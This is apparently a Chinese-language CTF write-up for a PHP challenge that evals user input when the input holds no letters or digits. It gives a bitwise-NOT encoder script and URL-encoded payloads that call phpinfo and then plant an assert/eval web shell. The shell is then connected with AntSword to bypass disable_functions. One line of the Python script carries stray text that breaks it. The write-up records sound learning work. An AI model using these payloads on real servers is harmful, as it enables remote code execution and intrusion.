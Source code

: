![[Pasted image 20221221195120.png|500]]

---
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
	$code=$_GET['code'];
	if(strlen($code)>40){
		die("This is too Long.");
	}
	if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

朴实无华.jpg
RCE，但是无字母数字QAQ
限制长度的话，估计是要转换成处理另一个参数了
构造目标是`phpinfo();`
感觉异或会太长，通过取反构造

```python
import re
s = input()gao bu lai
for ch in s:
    print('%%%02x' % (~ord(ch) + 256), end='')
```

```shell
$ python tmp.py
phpinfo
%8f%97%8f%96%91%99%90
```

```php
/?code=(~%8f%97%8f%96%91%99%90)();
```
> **disable_functions**
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl

这个怕不是禁得啥都不剩了QAQ
好像还有`assert`
构造`assert(eval($_POST['a']));`
```
assert ==> %9e%8c%8c%9a%8d%8b
eval($_POST['a']) ==> %9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6
```

```php
/?code=(~%9e%8c%8c%9a%8d%8b)(~%9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6);
```

`Antsword`连接
![[Pasted image 20221222114909.png|1000]]

直接用轮子绕过`disable_functions`（嗯，绝对不是`LD_PRELOAD`搞不来～）
![[Pasted image 20221222120344.png]]

#Web #PHP #绕过 #编码 #RCE #disable_functions #antsword